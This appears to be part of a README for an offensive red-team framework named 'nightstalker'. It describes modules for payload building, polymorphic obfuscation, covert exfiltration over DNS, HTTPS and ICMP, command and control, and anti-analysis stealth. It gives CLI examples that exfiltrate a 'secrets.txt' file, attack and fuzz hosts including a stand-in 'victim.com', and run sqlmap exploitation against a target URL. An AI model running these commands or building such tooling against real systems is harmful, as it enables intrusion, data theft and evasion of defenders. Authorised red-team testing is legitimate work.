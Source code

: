 ### Core Modules
- **Automation**: Attack chain management with Linux-specific detection
- **Payload Builder**: Cross-platform payload generation
- **Polymorphic Engine**: Code obfuscation and mutation
- **Exfiltration**: Covert data channels (DNS, HTTPS, ICMP)
- **File Monitoring**: Linux inotify-based file system monitoring
- **Environment Manager**: Portable and burn-after-use modes
- **Genetic Fuzzer**: Intelligent fuzzing with Linux process management

### Red Team Modules
- **C2 Infrastructure**: Command & control with Linux service support
- **Web Red Team**: Web scanning and exploitation tools
- **Stealth Manager**: Linux-specific anti-analysis techniques

## 🖥️ CLI Usage

### Basic Commands
```bash
# Show help
python -m nightstalker.cli help

# List available payloads
python -m nightstalker.cli payload list

# Build a payload
python -m nightstalker.cli payload build --type custom --format python -o output/my_payload.py

# Run penetration testing
python -m nightstalker.cli pentest --target 192.168.1.0/24 --chain full_chain

# Execute red team operations
python -m nightstalker.cli redteam attack --target 10.0.0.5 --payload memory_only
python -m nightstalker.cli redteam fuzz --target http://victim.com/api

# Data exfiltration
python -m nightstalker.cli exfil --data secrets.txt --channels https dns

# File monitoring
python -m nightstalker.cli monitor --paths /tmp /var/log

# Environment management
python -m nightstalker.cli env --status

# Web red teaming
python -m nightstalker.cli webred scan --url https://target.com
python -m nightstalker.cli webred exploit --url https://target.com --exploit sqlmap
```

### Command Groups
1. **payload**: Build, list, and manage payloads
2. **pentest**: Penetration testing campaigns
3. **redteam**: Offensive operations (attack, fuzz)
4. **exfil**: Data exfiltration
5. **monitor**: File system monitoring
6. **env**: Environment management
7. **webred**: Web red teaming operations
